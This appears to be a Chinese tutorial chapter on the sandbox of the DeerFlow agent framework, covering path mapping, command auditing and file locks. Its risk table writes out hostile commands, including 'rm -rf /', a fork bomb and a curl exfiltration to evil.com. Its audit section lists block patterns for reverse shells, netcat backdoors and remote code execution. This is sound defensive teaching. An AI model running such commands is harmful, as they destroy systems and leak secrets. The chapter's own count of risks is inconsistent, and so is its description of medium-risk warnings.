


# 03 沙箱执行系统

**本章课程目标：**

- 理解 DeerFlow 为什么需要沙箱，以及双层沙箱架构（本地文件系统 vs Docker 容器）的适用场景。
- 看懂虚拟路径映射机制：Agent 看到 `/mnt/user-data/workspace`，实际文件在 `~/.deer-flow/users/{id}/threads/{id}/workspace`。
- 理解安全审计的 16 个高风险正则模式 + 5 个中风险模式。
- 理解文件操作锁如何防止 bash 和 write_file 的竞态条件。

**学习建议：** 先理解虚拟路径映射——这是沙箱设计的基石。然后看安全审计的危险命令列表，问自己"为什么这些命令被拦截"。最后看文件操作锁的序列化逻辑。

---

## 1、为什么需要沙箱

### 1.1 Agent 执行代码的四个风险

| 风险 | 具体场景 | 沙箱对策 |
| --- | --- | --- |
| 恶意命令执行 | 模型被诱导执行 `rm -rf /` | 高风险命令直接阻止 |
| 路径遍历 | `cat ../../../../etc/passwd` | 虚拟路径映射下无法访问沙箱外文件 |
| 数据泄露 | `curl -X POST http://evil.com -d @secret.txt` | 网络操作审计 + 警告 |
| 资源耗尽 | fork 炸弹 `:(){ :\|:& };:` | 模式匹配 → 阻止 |
| 权限提升 | `chmod 777 /etc/shadow` | 中风险命令执行但附加警告 |

### 1.2 双层架构

DeerFlow 提供两种沙箱实现，通过 `config.yaml` 切换：

```yaml
sandbox:
  use: deerflow.sandbox.local.local_sandbox_provider:LocalSandboxProvider
  # 或
  # use: deerflow.community.aio_sandbox.aio_sandbox_provider:AioSandboxProvider
```

| 特性 | LocalSandbox | AioSandbox (Docker) |
| --- | --- | --- |
| 隔离级别 | 文件系统路径映射 | 容器级隔离 |
| 启动速度 | 即时（复用目录） | 需要拉取/启动容器 |
| 文件持久化 | 直接写入主机文件系统 | 卷挂载 |
| 安全强度 | 中等（依赖虚拟路径映射 + 审计） | 高（内核级隔离） |
| 适用场景 | 开发/测试/可信环境 | 生产/多租户/不可信环境 |

---

## 2、Sandbox 抽象接口

`packages/harness/deerflow/sandbox/sandbox.py` 定义了 `Sandbox` 抽象基类：

```python
class Sandbox(ABC):
    @abstractmethod
    async def execute_command(self, command: str) -> CommandResult: ...
    @abstractmethod
    async def read_file(self, path: str) -> FileContent: ...
    @abstractmethod
    async def write_file(self, path: str, content: str) -> None: ...
    @abstractmethod
    async def list_dir(self, path: str, max_depth: int = 2) -> str: ...
    @abstractmethod
    async def glob(self, path: str, pattern: str) -> list[str]: ...
    @abstractmethod
    async def grep(self, path: str, pattern: str) -> list[str]: ...
    @abstractmethod
    async def download_file(self, path: str) -> bytes: ...
```

这 7 个方法覆盖了 Agent 在沙箱中的所有操作需求。对应的 7 个 LangChain 工具（`bash`、`read_file`、`write_file`、`ls`、`glob`、`grep`、`str_replace`）都是对这个接口的封装。

---

## 3、虚拟路径映射：核心安全机制



### 3.1 问题

Agent 在沙箱中执行 `bash` 命令时，它看到的路径是 `/mnt/user-data/workspace/script.py`。但在主机文件系统中，这个文件实际在：

```
~/.deer-flow/users/default/threads/abc123/workspace/script.py
```

如果 Agent 尝试访问 `/etc/passwd`，这个路径在虚拟映射中没有对应项 → 被拒绝。

### 3.2 PathMapping 设计

```python
class PathMapping:
    """虚拟路径 -> 主机路径映射"""
    virtual: str   # /mnt/user-data/workspace
    host: str      # /Users/zing/.deer-flow/users/default/threads/abc/workspace
```

`LocalSandboxProvider` 维护三层映射：

| 层级 | 虚拟路径 | 主机路径 | 作用域 |
| --- | --- | --- | --- |
| 静态共享 | `/mnt/skills/` | `skills/` 目录 | 所有线程共享 |
| 静态共享 | 自定义挂载 | 用户配置的路径 | 所有线程共享 |
| 每线程 | `/mnt/user-data/workspace/` | `{thread_dir}/workspace/` | 单线程隔离 |
| 每线程 | `/mnt/user-data/uploads/` | `{thread_dir}/uploads/` | 单线程隔离 |
| 每线程 | `/mnt/user-data/outputs/` | `{thread_dir}/outputs/` | 单线程隔离 |

### 3.3 路径替换流程

每次 Agent 调用工具时，路径经过两次转换：



出站转换（虚拟 → 主机）：`replace_virtual_path()` 按最长前缀匹配遍历映射表。
入站转换（主机 → 虚拟）：`mask_local_paths_in_output()` 扫描输出中的所有主机路径，替换为虚拟路径。

### 3.4 路径安全检查

```python
def validate_local_tool_path(path: str, sandbox_id: str, operation: str) -> None:
    # 1. 必须是绝对路径
    if not path.startswith("/"):
        raise SandboxSecurityError("Path must be absolute")

    # 2. 检查目录遍历攻击
    if ".." in path.split("/"):
        raise SandboxSecurityError("Directory traversal detected")

    # 3. 检查 file:// URL
    if path.startswith("file://"):
        raise SandboxSecurityError("file:// URLs not allowed")

    # 4. 虚拟路径必须存在于映射中
    mapping = resolve_virtual_path(path, sandbox_id)
    if mapping is None:
        raise SandboxSecurityError(f"Path not in sandbox: {path}")
```

---

## 4、安全审计：16 + 5 个模式

`packages/harness/deerflow/agents/middlewares/sandbox_audit_middleware.py` 在每次 bash 命令执行前进行审计。

### 4.1 高风险模式（直接阻止）

| 模式 | 正则 | 阻止原因 |
| --- | --- | --- |
| `rm -rf /` | `rm\s+-rf\s+/` | 删除根目录 |
| `curl \| bash` | `curl.*\|.*bash` | 远程代码执行 |
| `wget \| sh` | `wget.*\|.*sh` | 远程代码执行 |
| Fork 炸弹 | `:\(\)\s*\{` | 资源耗尽 |
| `dd if=/dev/zero of=/dev/sda` | `dd\s+if=.*of=/dev/` | 覆写磁盘 |
| `mkfs` | `mkfs\.` | 格式化文件系统 |
| `chmod 777 /` | `chmod\s+777\s+/` | 权限提升 |
| `LD_PRELOAD` | `LD_PRELOAD=` | 库劫持 |
| `/dev/tcp` 反向 shell | `/dev/tcp/` | 反向 shell |
| `nc -e /bin/bash` | `nc\s+.*-e` | netcat 后门 |
| `python -c 'import pty'` | `pty\.spawn` | PTY 逃逸 |
| `chown root` | `chown\s+root` | 所有权提升 |
| `> /dev/sda` | `>\s*/dev/sd[a-z]` | 覆写磁盘设备 |
| `mv /etc/passwd` | `mv\s+/etc/` | 系统文件操作 |
| `reboot` / `shutdown` | `reboot\|shutdown` | 系统控制 |
| `:(){ :\|:& };:` | 精确匹配 fork 炸弹 | 资源耗尽 |

### 4.2 中风险模式（执行但附加警告）

| 模式 | 警告原因 |
| --- | --- |
| `chmod 777`（非根路径） | 过于宽松的权限 |
| `pip install` / `npm install -g` | 安装不受信任的包 |
| `sudo` | 权限提升 |
| `kill -9` | 强制终止进程 |
| `docker run` | 容器逃逸风险 |

### 4.3 审计生命周期

```python
class SandboxAuditMiddleware:
    async def awrap_tool_call(self, request, handler):
        if request.tool_name != "bash":
            return await handler(request)  # 非 bash 命令跳过审计

        command = request.tool_args.get("command", "")

        # 高风险：直接阻止
        for pattern in HIGH_RISK_PATTERNS:
            if pattern.search(command):
                return ToolMessage(
                    content=f"🚫 Command blocked for security: {pattern.name}",
                    tool_call_id=request.tool_call_id,
                    status="error"
                )

        # 中风险：执行但警告
        for pattern in MEDIUM_RISK_PATTERNS:
            if pattern.search(command):
                result = await handler(request)
                result.content = f"⚠️ Warning: {pattern.name}\n{result.content}"
                return result

        # 低风险：直接放行
        return await handler(request)
```

---

## 5、文件操作锁：防止竞态条件

### 5.1 问题

Agent 可能在同一个线程中并行调用 `write_file` 和 `bash`（bash 正在读取该文件）。如果不加锁，会出现竞态条件。

### 5.2 解决方案

```python
# file_operation_lock.py
class FileOperationLock:
    def __init__(self):
        self._locks: dict[str, threading.Lock] = {}
        self._global_lock = threading.Lock()

    def acquire(self, sandbox_id: str, path: str) -> threading.Lock:
        key = f"{sandbox_id}:{path}"
        with self._global_lock:
            if key not in self._locks:
                self._locks[key] = threading.Lock()
            return self._locks[key]
```

`write_file` 和 `str_replace` 在执行前获取对应文件路径的锁，确保与 `bash` 命令中的文件读写串行化：

```python
# tools.py 中的 write_file_tool（简化）
@tool
def write_file(path: str, content: str, sandbox: Sandbox):
    lock = file_operation_lock.acquire(sandbox.id, path)
    with lock:
        sandbox.write_file(path, content)
    return f"File written: {path}"
```

---

## 6、LocalSandbox 实现细节

### 6.1 命令执行

```python
class LocalSandbox(Sandbox):
    async def execute_command(self, command: str) -> CommandResult:
        # 1. 虚拟路径 → 主机路径
        host_command = replace_virtual_paths_in_command(command, self.mappings)

        # 2. 执行命令（subprocess.Popen）
        process = subprocess.Popen(
            host_command,
            shell=True,
            cwd=self.workspace_host_path,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True
        )

        # 3. 超时控制
        try:
            stdout, stderr = process.communicate(timeout=self.timeout)
        except subprocess.TimeoutExpired:
            process.kill()
            return CommandResult(
                stdout="",
                stderr=f"Command timed out after {self.timeout}s",
                returncode=-1
            )

        # 4. 主机路径 → 虚拟路径（掩码）
        masked_stdout = mask_local_paths_in_output(stdout, self.mappings)
        masked_stderr = mask_local_paths_in_output(stderr, self.mappings)

        return CommandResult(
            stdout=masked_stdout,
            stderr=masked_stderr,
            returncode=process.returncode
        )
```

### 6.2 LRU 缓存

`LocalSandboxProvider` 使用 LRU 缓存管理沙箱实例：

```python
class LocalSandboxProvider(SandboxProvider):
    def __init__(self, max_sandboxes: int = 256):
        self._sandboxes: OrderedDict[str, LocalSandbox] = OrderedDict()
        self._lock = threading.Lock()

    def acquire(self, thread_id: str) -> LocalSandbox:
        with self._lock:
            if thread_id in self._sandboxes:
                # 移到 LRU 头部（最近使用）
                self._sandboxes.move_to_end(thread_id)
                return self._sandboxes[thread_id]

            # 超过上限，驱逐最旧的
            if len(self._sandboxes) >= self.max_sandboxes:
                oldest_id = next(iter(self._sandboxes))
                self._sandboxes[oldest_id].cleanup()
                del self._sandboxes[oldest_id]

            sandbox = LocalSandbox(thread_id, self._path_mappings)
            self._sandboxes[thread_id] = sandbox
            return sandbox
```

---

## 7、SandboxProvider 的全局生命周期

```python
# sandbox_provider.py
_provider: SandboxProvider | None = None

def get_sandbox_provider() -> SandboxProvider:
    global _provider
    if _provider is None:
        config = get_app_config().sandbox
        # 通过反射创建 Provider 实例
        _provider = resolve_class(config.use)(**config.options)
    return _provider

def reset_sandbox_provider():
    """测试用：重置 Provider 单例"""
    global _provider
    if _provider:
        _provider.reset()
    _provider = None
```

---

## 8、安全配置指南

```yaml
# config.yaml - 沙箱安全配置
sandbox:
  use: deerflow.sandbox.local.local_sandbox_provider:LocalSandboxProvider
  options:
    allow_host_bash: true          # 允许本地 bash（默认需要显式启用）
    bash_execution_timeout: 120     # bash 命令超时（秒）
    max_sandboxes: 256             # 最大缓存沙箱数

  # 自定义挂载（Agent 可访问的额外目录）
  mounts:
    - host: /Users/zing/data
      virtual: /mnt/data
      read_only: true              # 只读挂载

# 审计配置（config.yaml）
sandbox_audit:
  enabled: true
  high_risk_block: true            # 高风险命令直接阻止
  medium_risk_warn: true           # 中风险命令执行但警告
```

---

## 9、本章小结

1. DeerFlow 提供**双层沙箱架构**：LocalSandbox（文件系统映射）用于开发，AioSandbox（Docker 容器）用于生产。

2. **虚拟路径映射**是核心安全机制：Agent 只能访问 `/mnt/user-data/` 下的路径，所有主机路径在输出中被掩码替换。

3. **安全审计**通过 16 个高风险正则模式直接阻止危险命令，5 个中风险模式执行但不警告。

4. **文件操作锁**防止 `write_file` 和 `bash` 之间的竞态条件，按 `(sandbox_id, path)` 粒度加锁。

5. SandboxProvider 采用**全局单例 + LRU 缓存**模式，支持测试环境替换。
